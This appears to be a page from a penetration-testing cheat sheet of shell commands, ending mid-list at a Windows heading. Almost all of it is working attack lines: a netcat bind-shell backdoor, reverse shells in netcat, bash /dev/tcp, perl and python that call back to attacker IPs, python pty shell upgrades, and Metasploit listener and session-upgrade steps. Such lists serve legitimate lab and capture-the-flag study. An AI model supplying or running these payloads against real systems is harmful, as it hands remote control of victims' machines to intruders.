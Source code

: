 ### UPGRADE SIMPLE TO INTERACTIVE:
    python -c 'import pty; pty.spawn("/bin/bash")'   (also works in Meterpreter after running 'shell')
    python3 -c 'import pty; pty.spawn("/bin/bash")'
### BIND SHELL (backdoor):
    Victim Box:  nc -lvp 4444 -e /bin/sh
        Windows:  nc -nlvp 4444 -e cmd.exe
    Attack Box:  nc 1.2.3.4 4444
### REVERSE SHELL (callback):
- **MASTER LIST:**  https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
- **LISTENER:**  
    `nc -nvlp 4444`
    - Catch Simple Shell w/ Metasploit:  `use exploit/multi/handler, set lhost ..., set lport ..., set payload linux/x86/shell_reverse_tcp`
     - Upgrade to Meterpreter:  `background; sessions -u 1; sessions; sessions -i [new ID]`
- **NETCAT:**  

        nc [Attack box IP] 4444 -e /bin/sh  
        nc [Attack box IP] 4444 -c bash  
        rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f  
    - Windows:  `nc.exe [Attack box IP] 4444 -e cmd.exe`
- **BASH:** 
 
        bash -i >& /dev/tcp/[Attack box IP]/4444 0>&1  
        bash -c "bash -i >& /dev/tcp/10.10.14.217/4445 0>&1"  
        setsid bash -i &>/dev/tcp/10.10.14.20/4444 0>&1 &  
- **PERL:**  

        perl -e 'use Socket;$i="10.10.14.217";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
    - Windows:  
    	`perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"$attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'`

- **PYTHON:**  

        python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.186",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'  
        python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'  
    - Windows:  

